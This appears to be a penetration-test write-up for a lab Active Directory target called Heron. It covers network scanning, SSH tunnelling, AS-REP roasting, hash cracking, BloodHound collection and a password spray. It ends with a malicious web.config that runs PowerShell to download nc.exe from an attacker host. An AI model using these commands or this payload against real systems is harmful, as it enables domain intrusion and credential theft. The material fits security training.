






## INFO

This is an assumed breach scenario. Heron Corp created a low-privileged local user account on a jump server for you.

```
pentest:Heron123!
```

Only the jump server is reachable from the external network.

```
└─# ssh pentest@10.10.174.182
```


Upload the tool [fscan](https://github.com/shadow1ng/fscan) in the jmp box, and map the internal network. 

```
pentest@frajmp:~$ ./fscan -h 10.10.174.1/24

(icmp) Target 10.10.174.181   is alive
(icmp) Target 10.10.174.182   is alive
[*] Icmp alive hosts len is: 3

10.10.174.181:445 open
10.10.174.181:139 open
10.10.174.181:135 open
10.10.174.181:80 open
10.10.174.181:88 open
10.10.174.182:22 open

[*] NetBios    [+] DC:mucdc.heron.vl    Windows Server 2022 Standard 20348
[*] WebTitle    http://10.10.174.181    title:Heron Corp
```

Cool ! There's a DC which is accessible only internally. Now we need reach the DC from our attacker box. 


Lets start a proxy tunnel , to  enumerate and breach the internal network .

```
└─# sshuttle -r pentest:'Heron123!'@10.10.174.182 10.10.174.1/24 -x 10.10.174.182
```




## BREACHING THE DOMAIN

Now , we can reach the DC from our attacker box. 




Found list of usernames , for further enumerations.


Lets Roast the users.

```
└─# impacket-GetNPUsers -no-pass -usersfile user_ heron.vl/ -dc-ip 10.10.169.133
```

We got hash of samuel.davies, the account has `UF_DONT_REQUIRE_PREAUTH` set.


Crack the hash.
```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt samuel.davies_hash
```




Now, We have valid domain user credentials , and alot of new possibilities to breach the domain.

Run Bloodhound to see what level of access this user has, and other attack vectors.

```
└─# bloodhound-python --username samuel.davies --password 'l6fkiy9oN' --nameserver 10.10.169.133 --domain heron.vl --domain-controller MUCDC.heron.vl --dns-tcp --collectionmethod all --zip
```


```
└─# crackmapexec smb 10.10.169.133 -u samuel.davies -p l6fkiy9oN -M gpp_password
```




Cool !  Trying the password spray, and we got a match !

```
└─# crackmapexec smb 10.10.169.133 -u svc-web-accounting-d  -p 'H3r0n2024#!' --shares
```

This account has got more rights / permissions . Now , we need a shell in the box.




Modify the web.config file :

```
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <location path="." inheritInChildApplications="false">
    <system.webServer>
      <handlers>
        <add name="aspNetCore" path="toto" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments='/c echo IWR http://10.10.173.54:8000/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile' stdoutLogEnabled="false" stdoutLogFile=".\log>
    </system.webServer>
  </location>
</configuration>
<!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->
```

